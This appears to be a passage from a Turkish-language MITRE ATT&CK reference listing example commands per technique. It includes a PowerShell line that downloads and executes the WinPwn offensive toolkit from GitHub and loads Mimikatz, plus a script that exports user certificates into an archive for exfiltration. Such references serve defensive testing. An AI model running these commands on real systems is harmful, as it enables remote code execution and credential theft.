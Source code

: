 1. **Plist File Modification (T1647)**
    
    Örnek komut:
    
    ```bash
    nano ~/Library/Preferences/com.apple.dock.plist
    vim ~/Library/Preferences/com.apple.dock.plist
    ```
    
2. **Reflective Code Loading (T1620)**
    
    Örnek komut:
    
    ```bash
    $S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
    iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
    mimiload -consoleoutput -noninteractive
    ```
    
3. **Indirect Command Execution (T1202)**
    
    Örnek komut:
    
    ```bash
    pcalua.exe -a #{process}
    pcalua.exe -a #{payload_path}
    ```
    
    ```bash
    forfiles /p c:\windows\system32 /m notepad.exe /c #{process}
    ```
    
    ```bash
    conhost.exe "#{process}"
    ```
    

---

## **Credential Access (TA0006)**

Kullanıcı adları ve parolaları ele geçirilir. Kimlik bilgilerini elde etmek için kullanılan teknikler arasında keylogging veya credential dumping yer alır. Yetkili kullanıcıların bilgilerini kullanmak, saldırganlara sistemlere erişim sağlayabilir, tespit edilmelerini zorlaştırabilir ve hedeflerine ulaşmalarına yardımcı olmak için daha fazla hesap oluşturma fırsatı sağlayabilir.

1. **Steal or Forge Authentication Certificates (T1649)**
    
    Örnek komut:
    
    ```powershell
    $archive="$env:PUBLIC\certs.zip"
    $exfilpath="$env:PUBLIC\certs"
    Add-Type -assembly "system.io.compression.filesystem"
    Remove-Item $(split-path $exfilpath) -Recurse -Force -ErrorAction Ignore
    mkdir $exfilpath | Out-Null
    foreach ($cert in (gci Cert:\CurrentUser\My)) { Export-Certificate -Cert $cert -FilePath $exfilpath\$($cert.FriendlyName).cer}
    [io.compression.zipfile]::CreateFromDirectory($exfilpath, $archive)
    ```
    